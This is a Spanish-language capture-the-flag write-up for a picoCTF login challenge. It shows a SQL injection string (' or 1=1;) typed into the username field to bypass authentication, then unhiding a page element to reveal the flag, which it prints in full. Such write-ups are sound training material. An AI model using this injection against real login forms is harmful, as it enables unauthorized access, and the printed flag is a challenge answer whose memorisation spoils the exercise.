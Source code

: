 ## Objetivo
Can you login to this website?Try to login [here](http://saturn.picoctf.net:57667/).
## Solución
- Al probar la pagina colocándole como usuario: admin y contraseña: admin me dice que es una conexión fallida.
```bash
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```
- Así que cambiamos el valor del usuario por una inyección de código SQL.
```bash
username: ' or 1=1;
password: admind
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admind'

Logged in! But can you see the flag, it is in plainsight.
```
- Vemos que nos la da pista de que hay un elemento oculto, por lo que inspeccionamos la pagina y eliminamos el elemento hidden a la etiqueta y ya con eso muestra la bandera.
```bash
Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac} 
```

## Notas Adicionales
## Referencias